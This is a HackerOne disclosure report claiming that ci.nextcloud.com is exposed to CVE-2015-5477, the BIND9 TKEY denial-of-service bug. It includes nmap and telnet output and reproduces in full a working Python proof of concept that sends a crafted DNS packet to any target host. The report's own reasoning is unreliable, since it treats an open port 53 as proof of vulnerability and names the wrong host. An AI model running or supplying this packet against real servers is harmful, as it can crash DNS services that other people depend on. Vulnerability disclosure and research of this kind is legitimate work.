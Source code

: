 # ci.nextcloud.com: CVE-2015-5477 BIND9 TKEY Vulnerability + Exploit (Denial of Service)

## Report Details
- **Report ID**: 237860
- **URL**: https://hackerone.com/reports/237860
- **State**: Closed
- **Severity**: high
- **Submitted**: 2017-06-07T23:28:05.817Z
- **Disclosed**: 2017-06-08T17:51:14.229Z

## Reporter
- **Username**: m4nx
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
Hello Team NextCloud,

In reference report #217381
I've reported the DDOS attack via DNS Port at OwnCloud..
And it was successfully patched.

But now same issue I got at

```
ci.nextcloud.com
```
Proof Of Concept:
Here it is the nmap result of ci.nextcloud.com

NMap Scan Results:
```
Starting Nmap 7.40 ( https://nmap.org ) at 2017-06-08 04:12 PKT
Nmap scan report for ci.nextcloud.com (█████)
Host is up (0.077s latency).
rDNS record for █████████: ███████
Not shown: 96 filtered ports
PORT    STATE SERVICE    VERSION
22/tcp  open  tcpwrapped
53/tcp  open  tcpwrapped
80/tcp  open  tcpwrapped
443/tcp open  tcpwrapped
```
Now here it is the telnet result:
```
──╼ $telnet
telnet> open
(to) ci.nextcloud.com 53
Trying ███...
Connected to ci.nextcloud.com.
Escape character is '^]'.
```

So this can leads to a serious DDOS attack at doc.owncloud.com using the exploit..

Exploit Link:

```
https://github.com/elceef/tkeypoc/
```
Vulnerability Reference CVE Details:

```
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5477
```
Exploit PoC:

Exploit Title: PoC for BIND9 TKEY DoS

Exploit Author: elceef

Software Link: https://github.com/elceef/tkeypoc/

Version: ISC BIND 9

Tested on: multiple

CVE : CVE-2015-5477

```
!/usr/bin/env python

import socket
import sys

print('CVE-2015-5477 BIND9 TKEY PoC')

if len(sys.argv) < 2:
print('Usage: ' + sys.argv[0] + ' [target]')
sys.exit(1)

print('Sending packet to ' + sys.argv[1] + ' ...')

payload = bytearray('4d 55 01 00 00 01 00 00 00 00 00 01 03 41 41 41 03 41 41 41 00 00 f9 00 ff 03 41 41 41 03 41 41 41 00 00 0a 00 ff 00 00 00 00 00 09 08 41 41 41 41 41 41 41 41'.replace(' ', '').decode('hex'))

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock.sendto(payload, (sys.argv[1], 53))

print('Done.')
```

Thanks :)


## Attachments
No attachments
